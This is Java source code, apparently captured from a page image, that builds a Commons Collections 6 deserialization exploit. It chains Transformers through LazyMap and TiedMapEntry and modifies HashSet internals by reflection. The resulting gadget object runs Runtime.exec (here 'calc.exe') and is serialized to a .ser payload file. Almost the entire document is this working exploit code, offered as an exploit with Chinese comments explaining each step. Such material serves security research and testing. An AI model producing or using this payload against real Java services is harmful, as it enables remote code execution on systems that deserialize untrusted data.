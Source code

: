 ```
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
public class exp `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException, IOException `{`
        //构造内部转换链
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]`{`String.class,Class[].class`}`,
                        new Object[]`{`"getRuntime",new Class[0]`}`),
                new InvokerTransformer("invoke",
                        new Class[]`{`Object.class,Object[].class`}`,
                        new Object[]`{`null,null`}`),
                new InvokerTransformer("exec",
                        new Class[]`{`String.class`}`,new Object[]`{`"calc.exe"`}`
                        )
        `}`;
        ChainedTransformer chain = new ChainedTransformer(trans);
        HashMap innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, chain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "tr1ple2333");
        innerMap.clear();
        //构造外部入口链
        HashSet newSet = new HashSet(1);
        newSet.add("tr1ple");
        Field innerSetMap  = HashSet.class.getDeclaredField("map");
        innerSetMap.setAccessible(true);
        //修改hashset内部的hashmap存储
        HashMap setMap = (HashMap)innerSetMap.get(newSet);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        //拿到存储的数据
        Object[] obj = (Object[])table.get(setMap);
        Object node  = obj[0];
        System.out.println(node.getClass().getName());
        Method[] methods  = node.getClass().getMethods();
        for(int i=0;i&lt;methods.length;i++)`{`
            System.out.println(methods[i].getName());
        `}`
        //拿到此时存到hashset中的node节点，key为要修改的点，这里需要修改它为真正的payload，即Tiedmapentry
        System.out.println(node.toString());
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,entry);
        //hashset的hashmap中的node节点修改完值以后放进hashset
        Field finalMap = newSet.getClass().getDeclaredField("map");
        finalMap.setAccessible(true);
        finalMap.set(newSet,setMap);
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections6.ser");
        ObjectOutputStream objOut = new ObjectOutputStream(new FileOutputStream(file));
        objOut.writeObject(newSet);
    `}`
`}`
```
